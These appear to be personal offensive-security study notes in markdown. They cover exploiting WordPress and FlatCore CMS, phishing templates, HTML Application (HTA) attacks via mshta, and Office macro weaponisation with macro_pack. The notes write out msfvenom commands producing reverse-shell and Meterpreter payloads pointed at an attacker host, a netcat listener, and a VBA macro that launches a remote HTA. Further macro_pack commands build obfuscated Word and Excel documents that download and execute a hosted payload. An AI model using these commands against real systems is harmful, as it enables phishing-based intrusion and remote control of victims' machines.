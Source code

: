 ### Wordpress 6.1

- Use module `use auxiliary/scanner/http/wordpress_scanner` for scanning vuln plugin
- The specific version of Duplicator plugin have a vuln to read a file. Use `msf` module to exploit

### Httpd Apache - FlatCore CMS

The version 2.0.7 have server side vuln [Exploit-50262](https://www.exploit-db.com/exploits/50262)
- Download and run with python3 (Must have creds)

## Note
- `netstat -antp` Check open port on host

### Pretext Phishing document

Resource:
- [Office phish template](https://github.com/martinsohn/Office-phish-templates)

### HTML Application

Application using HTML, CSS, JS to build, run in a special environment provide by Browser(IE, Edge)
- Can run independent on Windows
- IE (Internet Explorer) automatic execute HTML app with `mshta.exe` 
  - Always executed with security context of the current user.
  - HTA can have access to the local filesystem, registry and can execute ActiveX controls.
  - Allow HTA to run outside the constrains of the web browser
- The attack vector is typically classified as a Drive by Compromise technique
- They can be use for persistence and evasion

Simple HTA app

```html
<html>
    <head>
        <script>
            var payload = 'calc.exe'
            new ActiveXObject('Wscript.Shell').Run(payload)
        </script>
    </head>
    <body>
        <h1> HTA POC</h1>
        <script>
            self.close()
        </script>
    </body>
</html>
```

**Attack**:
- Generate hta payload `msfvenom -p windows/shell_reverse_tcp LHOST=<Host_ip> LPORT=4444 -f hta-psh -o shell.hta
- Set up listener `nc -nvlp 4444`
- Run the hta app on victim machine
  - Or we can create a marco to download the app and automatic open it

```vb
Sub ExecuteHTA()
    Dim url As String
    Dim command As String

    url = "URL_TO_HTA"
    command = "mshta.exe " & url

    Shell command, vbNormalFocus
End Sub
```

### Automating Marco development with MarcoPack

[Marco Pack](https://github.com/sevagas/macro_pack)

- Have obfuscate feature
- Support a lot of format

How to use:
- `marco_pack --list-formats` List supported format
- `echo "calc.exe" | marco_pack.exe -t CMD -o -G "test.doc"` Create marco open calc.exe in the `test.doc` file
  - `-o` Obfuscate
- `--list-templates` List all template of payload

Create payload with msfvenom
- `msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=<Host_ip> LPORT=1234 | .\marco_pack.exe -o -G "resume.doc"` Direct inject payload to marco of file
- `msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=<Host_ip> LPORT=1234 -f exe > payload.exe` -> Host the payload
  - `echo "http:\\Host_ip\payload.exe" "payload.exe" | .\marco_pack.exe -o -G "sheet.xls"` -> Generate the document to download payload and execute it